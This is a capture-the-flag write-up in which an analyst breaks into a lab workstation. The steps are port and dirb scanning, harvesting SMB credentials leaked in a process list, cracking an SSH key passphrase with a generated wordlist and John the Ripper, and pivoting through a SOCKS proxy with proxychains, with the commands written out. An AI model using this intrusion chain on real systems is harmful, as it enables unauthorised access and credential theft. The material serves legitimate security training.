 Security conerns: Johny's notes
======================================


## Task
Hi, TCC-CSIRT analyst,

please check if any inappropriate services are running on the workstation john.admins.cypherfix.tcc. We know that this workstation belongs to an administrator who likes to experiment on his own machine.

## Solution

You can do nothing wrong with nmap, so scan all ports on the workstation. There is open port 22 (SSH), 80 (apache) and 23000. Port 23000 is weird, it's possible to open it but it returns nothing, nmap with scan service return nothing... So, we can start with apache. Browser returns page "Hello world in PHP." No default page, probably there is running php. Enumeration with dirb return nothing interesting... but, there is PHP. So let's try it again with .php extension:

```
# dirb http://john.admins.cypherfix.tcc -X .php

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Oct 29 11:54:54 2024
URL_BASE: http://john.admins.cypherfix.tcc/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.php) | (.php) [NUM = 1]

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://john.admins.cypherfix.tcc/ ----
+ http://john.admins.cypherfix.tcc/environment.php (CODE:200|SIZE:3179)                                                                                        
+ http://john.admins.cypherfix.tcc/index.php (CODE:200|SIZE:28)
```

Interesting, we've discovered environment.php. On this page there are some statistics of the system and running processes. Running processes give us some answers. First, now we know what port 23000. There is opened SSH connection to host 10.99.24.100 with user backuper and option -D. Which means that on port 23000 we have SOCKS proxy: if we use SOCKS proxy client on this port, our connection will be made from 10.99.24.100 host.

Second, if we monitor process list some time, we find out this process:

```
smbclient -U backuper%Bprn5ibLF4KNS4GR5dt4 //10.99.24.100/backup -c put /backup/backup-1730217601.tgz backup-home.tgz
```

So it means that on host 10.99.24.100 is running samba server, we have credentials for it and also on this share will be some backup from workstation. Note that I have very great luck as the smbclient process was running when I opened web page for first time. I'm not sure when I will try to refresh it for ~10 minuts if I didn't see that process with credentials :-)

So, now run smbclient and download backup-home.tgz. If we try to connect to workstation with SSH we find out that only login with SSH key is permitted. If we extract home backup which we now have, we find private SSH key there. Encrypted. Also we can look on authorized_key which confirms, that we can login with this key but only from 10.99.24.100 host. So, change permission on id_rsa key to 600 so ssh can use it. Install proxychains and in /etc/proxychains.conf append line "socks5 10.99.24.101 23000". Now we can open SSH connection with this command: proxychains ssh -l john@tcc.local 10.99.24.101 -i id_rsa

Only missing piece is password for private key. So what is the most exciting file in every home directory? .bash_history for sure :-) There are two interesting lines:

```
Enterprise1512
ssh-keygen -p -f ~/.ssh/id_rsa
```

Second command change passphrase for key. First one seems like password. This password is not working anymore. But usually, when user has to change password and password had number on the end, you can bet, that only number in password was changed :-) So generate password list:

```
for i in $(seq 10000); do printf "Enterprise%04d\n" $i; done > list.txt
```

And crack it with John The Ripper (note that hashcat should also work and with mask shouldn't be needed generating password list but on my WS for some reason hashcat won't recognize SSH keyfile):

````
ssh2john id_rsa > hash
john --wordlist=./list.txt hash
john --show hash  
id_rsa:Enterprise2215
```

And now just login with proxychains and SSH:

```
# proxychains ssh -l john@tcc.local 10.99.24.101 -i id_rsa
[proxychains] config file found: /etc/proxychains.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  10.99.24.101:23000  ...  10.99.24.101:22  ...  OK
Enter passphrase for key 'id_rsa': 
FLAG{sIej-5d9a-aIbh-v4qH}
```
